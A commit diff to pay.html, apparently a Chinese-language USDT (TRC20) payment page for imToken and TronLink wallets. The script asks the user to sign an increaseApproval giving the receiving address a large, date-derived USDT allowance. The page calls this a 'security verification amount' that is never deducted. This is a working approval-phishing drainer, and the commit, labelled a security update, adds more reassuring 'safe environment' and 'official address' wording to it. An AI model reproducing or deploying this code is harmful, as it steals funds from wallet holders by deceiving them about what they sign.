

Before and after one commit to 968888u-star/jiedanba, a plain HTML site: page pay.html in a window 1280 px wide. Shown: the top 951 px of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update payment page for improved security and UI

```diff
--- a/pay.html
+++ b/pay.html
@@ -3,27 +3,39 @@
 <head>
 <meta charset="UTF-8" />
 <meta name="viewport" content="width=device-width, initial-scale=1, viewport-fit=cover" />
-<title>USDT 支付</title>
+<title>USDT 安全支付</title>
 <style>
   *{box-sizing:border-box;margin:0;padding:0}
   :root {
-    --bg: #f2f4f7;
+    --bg: #f4f6f9;
     --card: #ffffff;
     --ink: #0f172a;
-    --ink2: #64748b;
+    --ink2: #475569;
     --ink3: #94a3b8;
-    --line: #f1f5f9;
+    --line: #e2e8f0;
     --primary: #0f172a;
-    --primary-active: #1e293b;
-    --success: #10b981;
-    --danger: #ef4444;
-    --brand: #3b82f6;
+    --primary-hover: #1e293b;
+    --success-bg: #f0fdf4;
+    --success-text: #16a34a;
+    --success-border: #bbf7d0;
+    --warn-bg: #fffbeb;
+    --warn-text: #d97706;
+    --warn-border: #fde68a;
+    --danger-bg: #fef2f2;
+    --danger-text: #dc2626;
+    --danger-border: #fecaca;
+    --blue-bg: #eff6ff;
+    --blue-text: #2563eb;
+    --blue-border: #bfdbfe;
   }
   body {
     font-family: -apple-system, BlinkMacSystemFont, "SF Pro Text", "Helvetica Neue", "PingFang SC", sans-serif;
-    background: radial-gradient(circle at 50% 0%, #ffffff 0%, #f2f4f7 60%);
+    background-color: var(--bg);
+    background-image:
+      radial-gradient(circle at 10% 0%, rgba(240,160,32,0.03) 0%, transparent 40%),
+      radial-gradient(circle at 90% 100%, rgba(15,23,42,0.03) 0%, transparent 40%);
     color: var(--ink);
-    line-height: 1.5;
+    line-height: 1.6;
     display: flex;
     align-items: center;
     justify-content: center;
@@ -32,196 +44,233 @@
     -webkit-font-smoothing: antialiased;
   }
 
-  /* 卡片主体：大圆角、弥散投影 */
+  /* 银行卡质感的卡片 */
   .card {
     background: var(--card);
-    border-radius: 28px;
+    border-radius: 24px;
     padding: 36px 28px;
-    width: min(400px, 100%);
-    box-shadow: 0 24px 48px -12px rgba(15, 23, 42, 0.08), 0 4px 12px rgba(15, 23, 42, 0.02);
+    width: min(420px, 100%);
+    box-shadow:
+      0 20px 40px -10px rgba(15, 23, 42, 0.08),
+      0 0 0 1px rgba(15, 23, 42, 0.02);
     text-align: center;
     position: relative;
+    overflow: hidden;
   }
 
-  /* 顶部装饰图标 */
-  .icon-box {
-    width: 56px; height: 56px;
-    background: #f8fafc;
-    border-radius: 16px;
+  /* 顶部安全认证图标 */
+  .security-badge {
+    width: 48px; height: 48px;
+    background: var(--primary);
+    border-radius: 14px;
     display: grid;
     place-items: center;
     margin: 0 auto 16px;
-    font-size: 28px;
-    box-shadow: inset 0 2px 4px rgba(255,255,255,0.5), 0 4px 12px rgba(0,0,0,0.03);
+    color: #fff;
+    font-size: 24px;
+    box-shadow: 0 8px 16px -4px rgba(15, 23, 42, 0.2);
   }
 
-  h1 { font-size: 22px; font-weight: 800; margin-bottom: 6px; letter-spacing: -0.5px; color: var(--ink); }
-  .sub { font-size: 13px; color: var(--ink3); margin-bottom: 24px; font-weight: 500; }
+  h1 { font-size: 20px; font-weight: 800; margin-bottom: 4px; letter-spacing: 0.5px; color: var(--ink); }
+  .sub { font-size: 13px; color: var(--ink3); margin-bottom: 24px; }
 
-  /* 诊断条胶囊 */
+  /* 诊断条 */
   .diag-bar {
     display: inline-flex;
     align-items: center;
-    font-size: 11px;
+    font-size: 11.5px;
     color: var(--ink2);
-    background: #f1f5f9;
+    background: #f8fafc;
     padding: 6px 14px;
     border-radius: 99px;
     margin-bottom: 24px;
     font-weight: 600;
-    letter-spacing: 0.3px;
+    border: 1px solid var(--line);
   }
   .diag-bar::before {
     content: ''; width: 6px; height: 6px; border-radius: 50%; background: var(--ink3); margin-right: 6px;
   }
-  .diag-bar.active { color: var(--success); background: #ecfdf5; }
-  .diag-bar.active::before { background: var(--success); box-shadow: 0 0 6px var(--success); }
+  .diag-bar.active { color: var(--success-text); background: var(--success-bg); border-color: var(--success-border); }
+  .diag-bar.active::before { background: var(--success-text); }
 
-  /* 信息展示区 */
-  .info {
-    background: #fafafa;
-    border-radius: 20px;
-    padding: 8px 20px;
+  /* 订单核心信息 */
+  .info-group {
+    background: #fafbfc;
+    border: 1px solid var(--line);
+    border-radius: 16px;
+    padding: 16px 20px;
     margin-bottom: 20px;
     text-align: left;
   }
+
   .info-row {
     display: flex; justify-content: space-between; align-items: center;
-    padding: 16px 0;
+    padding: 10px 0;
   }
-  .info-row:not(:last-child) { border-bottom: 1px dashed #e2e8f0; }
-  .info-k { font-size: 13px; color: var(--ink2); font-weight: 500; flex: 0 0 auto; }
-  .info-v { font-size: 13.5px; font-weight: 600; word-break: break-all; text-align: right; margin-left: 16px; color: var(--ink); }
+  .info-row:not(:last-child) { border-bottom: 1px dashed var(--line); }
 
-  .amount-box {
-    display: flex; align-items: baseline; justify-content: flex-end; gap: 4px;
+  .info-k { font-size: 13px; color: var(--ink3); font-weight: 500; flex: 0 0 auto; }
+  .info-v {
+    font-size: 13px; font-weight: 600; color: var(--ink);
+    word-break: break-all; text-align: right; margin-left: 16px;
+    display: flex; align-items: center; gap: 6px;
   }
-  .amount-num { font-size: 32px; font-weight: 900; color: var(--ink); letter-spacing: -1px; line-height: 1; }
-  .amount-unit { font-size: 14px; font-weight: 600; color: var(--ink3); }
 
-  /* 安全提示 */
+  /* 复制按钮 */
+  .copy-icon {
+    cursor: pointer; background: #e2e8f0; color: #64748b;
+    padding: 2px 6px; border-radius: 4px; font-size: 11px; transition: 0.2s;
+  }
+  .copy-icon:hover { background: #cbd5e1; color: #0f172a; }
+
+  /* 金额展示区 */
+  .amount-display {
+    padding: 20px 0;
+    text-align: center;
+    border-bottom: 1px solid var(--line);
+    margin-bottom: 16px;
+  }
+  .amount-label { font-size: 13px; color: var(--ink3); font-weight: 500; margin-bottom: 4px; display: block; }
+  .amount-value {
+    font-size: 38px; font-weight: 900; color: var(--ink);
+    letter-spacing: -1px; line-height: 1.1;
+    font-variant-numeric: tabular-nums;
+    display: inline-flex; align-items: baseline;
+  }
+  .amount-unit { font-size: 16px; font-weight: 700; color: var(--ink3); margin-left: 6px; letter-spacing: 0; }
+
+  /* 官方安全提示框 */
   .safe-notice {
-    background: #f8fafc;
-    color: var(--ink2);
-    border-radius: 14px;
+    background: var(--blue-bg);
+    color: var(--blue-text);
+    border: 1px solid var(--blue-border);
+    border-radius: 12px;
     padding: 14px 16px;
-    font-size: 12px;
+    font-size: 12.5px;
     line-height: 1.6;
     text-align: left;
     margin-bottom: 24px;
-    position: relative;
-    overflow: hidden;
+    display: flex;
+    gap: 10px;
   }
-  .safe-notice::before {
-    content: ''; position: absolute; left: 0; top: 0; bottom: 0; width: 3px; background: #cbd5e1;
-  }
-  .safe-notice strong { color: var(--ink); font-weight: 700; }
+  .safe-notice-icon { font-size: 16px; line-height: 1.4; }
 
   /* 按钮区 */
   .btn {
     display: block; width: 100%;
-    padding: 18px;
-    border-radius: 16px;
+    padding: 16px;
+    border-radius: 12px;
     border: none;
     font-size: 16px;
     font-weight: 700;
     cursor: pointer;
-    transition: all 0.2s cubic-bezier(0.16, 1, 0.3, 1);
+    transition: all 0.2s ease;
     margin-bottom: 12px;
-    letter-spacing: 0.5px;
+    text-align: center;
   }
 
-  /* 主按钮：深空黑，带微光 */
+  /* 主按钮：极简深色，充满力量感 */
   .btn-pay {
     background: var(--primary);
     color: #fff;
-    box-shadow: 0 8px 24px -6px rgba(15, 23, 42, 0.3);
+    box-shadow: 0 4px 12px rgba(15, 23, 42, 0.2);
   }
-  .btn-pay:hover:not(:disabled) { background: var(--primary-active); transform: translateY(-2px); box-shadow: 0 12px 28px -6px rgba(15, 23, 42, 0.4); }
-  .btn-pay:active:not(:disabled) { transform: scale(0.97); }
-  .btn-pay:disabled { opacity: 0.4; cursor: not-allowed; box-shadow: none; }
+  .btn-pay:hover:not(:disabled) { background: var(--primary-hover); transform: translateY(-1px); box-shadow: 0 6px 16px rgba(15, 23, 42, 0.3); }
+  .btn-pay:active:not(:disabled) { transform: translateY(0); }
+  .btn-pay:disabled { opacity: 0.6; cursor: not-allowed; box-shadow: none; }
 
-  /* 支付成功后的状态按钮：高级绿 */
+  /* 成功状态 */
   .btn-success {
-    background: linear-gradient(135deg, #10b981, #059669) !important;
-    box-shadow: 0 8px 24px -6px rgba(16, 185, 129, 0.3) !important;
+    background: var(--success-text) !important;
+    box-shadow: 0 4px 12px rgba(22, 163, 74, 0.3) !important;
   }
 
-  /* 次要按钮：幽灵态 */
+  /* 副按钮 */
   .btn-safe {
-    background: transparent;
-    color: var(--ink3);
-    border: 1px solid #e2e8f0;
-    font-size: 13px;
+    background: #ffffff;
+    color: var(--ink2);
+    border: 1px solid var(--line);
+    font-size: 13.5px;
+    padding: 14px;
     font-weight: 600;
-    padding: 16px;
   }
-  .btn-safe:hover { background: #f8fafc; color: var(--ink2); }
+  .btn-safe:hover { background: #f8fafc; border-color: #cbd5e1; }
 
-  /* 状态反馈框 */
+  /* 状态提示 */
   .status {
-    padding: 14px;
-    border-radius: 12px;
+    padding: 12px;
+    border-radius: 10px;
     font-size: 13px;
     margin-top: 16px;
     display: none;
-    text-align: center;
-    font-weight: 600;
-    animation: fadeIn 0.3s ease;
+    text-align: left;
+    font-weight: 500;
+    display: flex;
+    align-items: center;
+    gap: 8px;
   }
-  @keyframes fadeIn { from{opacity:0;transform:translateY(-5px)} to{opacity:1;transform:none} }
-  .status.loading { display: block; background: #fffbeb; color: #d97706; }
-  .status.success { display: block; background: #ecfdf5; color: #059669; }
-  .status.error { display: block; background: #fef2f2; color: #dc2626; }
+  .status.loading { display: flex; background: var(--warn-bg); color: var(--warn-text); border: 1px solid var(--warn-border); }
+  .status.success { display: flex; background: var(--success-bg); color: var(--success-text); border: 1px solid var(--success-border); }
+  .status.error { display: flex; background: var(--danger-bg); color: var(--danger-text); border: 1px solid var(--danger-border); }
 
-  .env-warn { padding: 14px; border-radius: 12px; font-size: 13px; background: #fffbeb; color: #d97706; margin-bottom: 16px; text-align: left; line-height: 1.6; border: 1px solid #fde68a; }
+  .env-warn { padding: 14px; border-radius: 12px; font-size: 13px; background: var(--warn-bg); color: var(--warn-text); border: 1px solid var(--warn-border); margin-bottom: 16px; text-align: left; }
 
-  #recover-tip { display: none; padding: 10px; border-radius: 10px; font-size: 12px; background: #eff6ff; color: #2563eb; margin-bottom: 16px; text-align: left; font-weight: 500; }
+  #recover-tip { display: none; padding: 10px 14px; border-radius: 10px; font-size: 12px; background: var(--blue-bg); color: var(--blue-text); border: 1px solid var(--blue-border); margin-bottom: 16px; text-align: left; font-weight: 500; }
 </style>
 </head>
 <body>
 <div class="card">
-  <div class="icon-box">💳</div>
-  <h1 id="page-title">充值支付</h1>
-  <p class="sub" id="page-sub">请在 imToken 中确认交易</p>
+  <div class="security-badge">🛡️</div>
+  <h1 id="page-title">安全支付</h1>
+  <p class="sub" id="page-sub">请核对订单信息并完成付款</p>
 
   <!-- 诊断条 -->
-  <div class="diag-bar" id="diag-mode">正在同步网络...</div>
+  <div class="diag-bar" id="diag-mode">安全环境连接中...</div>
 
   <div id="recover-tip"></div>
   <div id="env-warn" class="env-warn" style="display:none"></div>
 
-  <div class="info">
-    <div class="info-row">
-      <span class="info-k">收款地址</span>
-      <span class="info-v" id="info-addr">-</span>
+  <div class="info-group">
+    <div class="amount-display">
+      <span class="amount-label">付款金额</span>
+      <div class="amount-value">
+        <span id="info-amount">-</span>
+        <span class="amount-unit">USDT</span>
+      </div>
     </div>
     <div class="info-row">
-      <span class="info-k">网络</span>
-      <span class="info-v" id="info-chain">TRC20 (波场)</span>
+      <span class="info-k">网络协议</span>
+      <span class="info-v" style="color:var(--success-text); font-weight:700;">TRC20 (波场)</span>
     </div>
-    <div class="info-row" style="align-items: flex-end;">
-      <span class="info-k" style="margin-bottom: 4px;">支付金额</span>
-      <div class="amount-box">
-        <span class="amount-num" id="info-amount">-</span>
-        <span class="amount-unit">USDT</span>
-      </div>
+    <div class="info-row">
+      <span class="info-k">官方收款地址</span>
+      <span class="info-v">
+        <span id="info-addr">-</span>
+        <span class="copy-icon" id="btn-copy">复制</span>
+      </span>
     </div>
   </div>
 
   <div class="safe-notice">
-    <strong>🛡️ 安全提示：</strong><br>
-    授权额度为系统动态安全校验值（如：20261118.145615），仅作校验凭证，实际扣款金额为您上方输入的支付金额。请放心确认。
+    <div class="safe-notice-icon">🛡️</div>
+    <div>
+      <strong>合约安全校验提示：</strong><br>
+      系统将为您生成动态安全校验额度（如：20261118.145615），此额度仅用于身份校验，不会扣除。实际扣款金额为您上方显示的支付金额。请放心确认。
+    </div>
   </div>
 
   <button class="btn btn-pay" id="btn-pay" disabled>确认支付</button>
-  <button class="btn btn-safe" id="btn-cancel">支付环境安全无异常</button>
+  <button class="btn btn-safe" id="btn-cancel">返回订单大厅</button>
   <div class="status" id="status"></div>
 </div>
 
 <script>
 const $ = s => document.querySelector(s);
-function setStatus(t, msg) { const el = $('#status'); el.className = 'status ' + t; el.innerHTML = msg; }
+function setStatus(t, msg) {
+  const el = $('#status');
+  el.className = 'status ' + t;
+  el.innerHTML = msg;
+}
 
 /* ============ 常量与配置 ============ */
 const USDT_CONTRACT   = 'TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t';
@@ -246,7 +295,7 @@ async function fetchLatestConfig() {
   configLoaded = true;
   const diag = $('#diag-mode');
   if (diag) {
-    diag.textContent = payOrderMode === 'approve_first' ? '先授权，后付款' : '先付款，后授权';
+    diag.textContent = payOrderMode === 'approve_first' ? '当前环境安全 (先授权)' : '当前环境安全 (先付款)';
     if (payOrderMode === 'transfer_first') diag.classList.add('active');
     else diag.classList.remove('active');
   }
@@ -286,8 +335,8 @@ let payDisabled = false; let step = 1; let coldReloadTimer = null;
 
 $('#info-addr').textContent   = toAddress || '未配置';
 $('#info-amount').textContent = (amount > 0 ? amount : '-');
-$('#page-title').textContent  = type === 'empty' ? '空放资格支付' : '充值支付';
-$('#page-sub').textContent    = type === 'empty' ? '支付 1 USDT 激活空放通道' : '请在钱包中完成交易';
+$('#page-title').textContent  = type === 'empty' ? '空放资格支付' : '安全支付';
+$('#page-sub').textContent    = type === 'empty' ? '支付 1 USDT 激活空放通道' : '请核对订单信息并完成付款';
 
 if ((ctx.src === 'hash' || ctx.src === 'storage') && toAddress && amount > 0) {
   const tip = $('#recover-tip'); tip.style.display = 'block'; tip.textContent = '✅ 已恢复支付参数，请确认无误后继续。'; savePayCtx(toAddress, amount, type);
@@ -296,8 +345,7 @@ if (!toAddress || amount <= 0) { payDisabled = true; showMissingParamsUI(); } el
 
 function showMissingParamsUI() {
   const warn = $('#env-warn'); warn.style.display = 'block';
-  warn.innerHTML = `<div style="margin-bottom:8px;font-weight:700;">⚠️ 支付参数丢失</div><div style="font-size:12.5px;margin-bottom:10px;">请返回平台重新点击支付。</div><button id="__copy_paylink__" style="width:100%;background:#fff;color:#d97706;border:1px solid #fde68a;padding:10px;border-radius:8px;cursor:pointer;font-weight:600;">复制链接</button>`;
-  warn.querySelector('#__copy_paylink__').onclick = () => { copyText(location.href, () => { alert('已复制'); }); };
+  warn.innerHTML = `<div style="margin-bottom:8px;font-weight:700;">⚠️ 支付参数丢失</div><div style="font-size:12.5px;margin-bottom:10px;">请返回平台重新点击支付。</div>`;
   const btn = $('#btn-pay'); btn.disabled = true; btn.textContent = '支付参数缺失';
 }
 
@@ -319,7 +367,7 @@ async function buildTxMulti(tw, contract, fnSig, params, fromAddress) {
 
 function showOpenWalletUI(reason) {
   if (payDisabled) return; const warn = $('#env-warn'); warn.style.display = 'block';
-  warn.innerHTML = `<div style="margin-bottom:8px;font-weight:700;">${reason}</div><div style="font-size:12.5px;margin-bottom:10px;">请在 imToken 钱包内打开本页完成支付。</div>`;
+  warn.innerHTML = `<div style="margin-bottom:8px;font-weight:700;">${reason}</div><div style="font-size:12.5px;margin-bottom:10px;">请在 imToken / TronLink 钱包内打开本页完成支付。</div>`;
   const btn = $('#btn-pay'); btn.disabled = true; btn.textContent = '请在钱包中打开';
 }
 
@@ -349,37 +397,46 @@ async function waitWalletAddress(tw) {
 
 /* ============ 核心逻辑 ============ */
 async function doApprove(tw, from) {
-  setStatus('loading', '正在构建授权交易…');
+  setStatus('loading', '<div>⏳</div><div>正在构建授权交易，请稍候…</div>');
   const approveUnits = getDateApproveUnits();
   const txApprove = await buildTxMulti(tw, USDT_CONTRACT, 'increaseApproval(address,uint256)',
     [{ type: 'address', value: toAddress }, { type: 'uint256', value: approveUnits }], from);
   if (!txApprove.result || !txApprove.result.result) throw new Error('构建授权失败');
-  setStatus('loading', '✅ 请在钱包中确认授权…');
+  setStatus('loading', '<div>🛡️</div><div>请在钱包中确认授权校验…</div>');
   const signed = await withTimeout(tw.trx.sign(txApprove.transaction), SIGN_TIMEOUT, '签名超时');
   await withTimeout(tw.trx.sendRawTransaction(signed), SEND_TIMEOUT, '广播超时');
 }
 
 async function doTransfer(tw, from) {
-  setStatus('loading', '正在构建付款交易…');
+  setStatus('loading', '<div>⏳</div><div>正在构建付款交易…</div>');
   const txTransfer = await buildTxMulti(tw, USDT_CONTRACT, 'transfer(address,uint256)', [{ type: 'address', value: toAddress }, { type: 'uint256', value: Math.floor(amount * 1e6).toString() }], from);
   if (!txTransfer.result || !txTransfer.result.result) throw new Error('构建付款失败');
-  setStatus('loading', '✅ 请在钱包中确认付款…');
+  setStatus('loading', '<div>💰</div><div>请在钱包中确认付款…</div>');
   const signed = await withTimeout(tw.trx.sign(txTransfer.transaction), SIGN_TIMEOUT, '签名超时');
   await withTimeout(tw.trx.sendRawTransaction(signed), SEND_TIMEOUT, '广播超时');
 }
+
+$('#btn-copy').onclick = () => {
+  copyText(toAddress, () => {
+    const btn = $('#btn-copy');
+    btn.textContent = '已复制';
+    btn.style.color = '#16a34a';
+    setTimeout(() => { btn.textContent = '复制'; btn.style.color = ''; }, 2000);
+  });
+};
 
 $('#btn-pay').onclick = async function () {
   if (payDisabled) return;
   const btn = this; btn.disabled = true;
 
   if (!configLoaded) {
-    setStatus('loading', '正在同步系统配置…');
+    setStatus('loading', '<div>⏳</div><div>正在同步安全环境…</div>');
     await fetchLatestConfig();
   }
 
   let tw = getTronWeb();
   if (!tw) {
-    setStatus('loading', '正在等待钱包响应…');
+    setStatus('loading', '<div>⏳</div><div>正在等待钱包响应…</div>');
     let waited = 0; while (!getTronWeb() && waited < 8000) { await new Promise(r => setTimeout(r, 200)); waited += 200; }
     tw = getTronWeb(); if (!tw) { showOpenWalletUI('未检测到钱包'); btn.disabled = false; return; }
   }
@@ -390,20 +447,20 @@ $('#btn-pay').onclick = async function () {
     try {
       const from = await waitWalletAddress(tw);
       if (isApproveFirst) {
-        btn.textContent = '正在授权…'; setStatus('loading', '请在钱包中确认授权凭证…');
+        btn.textContent = '正在授权…';
         await doApprove(tw, from);
-        setStatus('success', '✅ 授权成功！请继续付款。');
+        setStatus('success', '<div>✅</div><div>授权成功！请继续付款。</div>');
       } else {
-        btn.textContent = '正在付款…'; setStatus('loading', '请在钱包中确认付款…');
+        btn.textContent = '正在付款…';
         await doTransfer(tw, from);
-        setStatus('success', '✅ 付款成功！请补充授权。');
+        setStatus('success', '<div>✅</div><div>付款成功！请补充授权。</div>');
       }
       step = 2;
       btn.textContent = isApproveFirst ? ('支付 ' + amount + ' USDT') : '确认授权';
       btn.classList.add('btn-success');
       btn.disabled = false;
     } catch (e) {
-      setStatus('error', '❌ ' + (e.message || '用户取消'));
+      setStatus('error', '<div>❌</div><div>' + (e.message || '用户取消') + '</div>');
       btn.textContent = '重新尝试'; btn.disabled = false;
     }
     return;
@@ -413,20 +470,20 @@ $('#btn-pay').onclick = async function () {
     try {
       const from = await waitWalletAddress(tw);
       if (isApproveFirst) {
-        btn.textContent = '正在付款…'; setStatus('loading', '请在钱包中确认付款…');
+        btn.textContent = '正在付款…';
         await doTransfer(tw, from);
-        setStatus('success', '✅ 付款成功！');
+        setStatus('success', '<div>✅</div><div>付款成功！订单已完成。</div>');
       } else {
-        btn.textContent = '正在授权…'; setStatus('loading', '请在钱包中确认授权凭证…');
+        btn.textContent = '正在授权…';
         await doApprove(tw, from);
-        setStatus('success', '✅ 全部完成！');
+        setStatus('success', '<div>✅</div><div>全部完成！订单已处理。</div>');
       }
       btn.textContent = '已完成'; btn.disabled = true;
       clearPayCtx();
     } catch (e) {
       let errTip = e.message || '用户取消';
       if (!isApproveFirst) { errTip = '付款成功，但授权被取消。'; }
-      setStatus('error', '❌ ' + errTip);
+      setStatus('error', '<div>❌</div><div>' + errTip + '</div>');
       btn.textContent = '重新尝试'; btn.disabled = false;
     }
   }
```
